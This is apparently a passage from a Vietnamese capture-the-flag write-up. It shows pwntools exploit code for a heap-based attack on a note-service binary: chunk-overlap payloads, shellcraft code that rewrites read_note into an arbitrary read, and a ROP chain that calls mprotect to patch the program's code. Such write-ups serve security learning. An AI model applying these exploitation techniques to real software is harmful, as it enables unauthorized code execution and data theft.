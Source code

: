 ```py=
delete_note(b'a', b'a')
delete_note(b'b', b'b')

payload = p64(0x61) + p64(0)*7
payload += p64(0x61) + p64(0)*3
payload += p64(0x390) + p64(0)*8
new_note(b'a', b'a', 0xf910, b'a')
note_sync('c')
new_note(b'nao', b'nao', 0x600, b'nao')
note_sync('c')
new_note(b'b', b'b', 0xfff0, b'b')
note_sync('c')
payload = p32(0) + p64(0x100) + p64(0)*5 + b'\x00'
new_note(b'c'*0x8 + p64(0xb1), b'c'*0x18, 53, payload)
note_sync('c')
delete_note(b'b', b'b')
```
 
 ![Screenshot 2024-01-29 144844](https://hackmd.io/_uploads/ryTsuRVcp.png)

* Ban đầu

![Screenshot 2024-01-29 144903](https://hackmd.io/_uploads/B1WauRVqp.png)

* Sau đó

![Screenshot 2024-01-29 144922](https://hackmd.io/_uploads/rkkAdA4qT.png)

* Như vậy là ta có thể đưa heap kia vào `content` của `1` note trên `interface` nhưng vì `NULL` byte nên mình ko thể dùng `option` `List Note` để đọc
* Dựa vào ropchain ban đầu mình sửa luôn hàm `Read_note` thành arbitrary read luôn

```py=
new_read_note = 'sub rsp, 0x80\n'
new_read_note += shellcraft.read(0, interface.symbols['notes'] + 8, 8)
new_read_note += '\n mov rsi, [rsi]\n'
new_read_note += shellcraft.write(1, 'rsi', 0x100)
new_read_note += '\nadd rsp, 0x80'
new_read_note += '  \nret'
```

* Patch lại `interface`

```py=
rop_elf.raw(interface.symbols['note_main'] + 122)
rop_libc.mprotect(interface.address + 0x2000, 0x3000, 7)
rop_libc.rsi = interface.symbols['edit_note'] + 525
rop_libc.rdi = 0x0fc5390001ffffb8
rop_libc.raw(MOV_PRSI_RDI)
rop_libc.rsi = interface.symbols['add_new_note'] + 621
rop_libc.rdi = 0xc439410001ffffb8
rop_libc.raw(MOV_PRSI_RDI)
rop_libc.rsi = interface.symbols['add_new_note'] + 254
rop_libc.rdi = 0x0fd0390001ffffba
rop_libc.raw(MOV_PRSI_RDI)
rop_libc.read(0, interface.symbols['read_note'], 0x200)
rop_libc.raw(RET)

payload += rop_libc.chain() + rop_elf.chain()
```
